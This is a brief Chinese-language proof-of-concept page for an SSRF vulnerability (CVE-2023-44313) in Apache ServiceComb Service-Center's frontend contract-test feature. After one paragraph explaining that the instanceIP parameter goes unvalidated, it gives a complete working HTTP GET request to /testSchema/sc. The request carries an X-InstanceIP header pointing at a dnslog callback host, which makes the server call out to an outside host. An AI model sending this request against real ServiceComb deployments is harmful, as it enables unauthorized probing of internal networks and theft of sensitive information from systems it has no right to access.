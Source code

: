 ## Apache-ServiceComb存在SSRF漏洞(CVE-2023-44313)

Apache ServiceComb Service-Center是Apache基金会的一个基于Restful的服务注册中心,提供微服务发现和微服务管理,在ServiceComb Service-Center 中的 frontend 组件的契约测试功能存在SSRF漏洞,由于未验证请求的instanceIP参数,攻击者可以向/testSchema/下的路由发送恶意请求获取内部敏感信息。

## poc

```
GET /testSchema/sc HTTP/1.1
Host: 127.0.0.1:30103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-InstanceIP:6e65vf.dnslog.cnn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Mon, 14 Mar 2022 14:09:37 GMT
Connection: close
```

![image-20240626215735184](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262157297.png)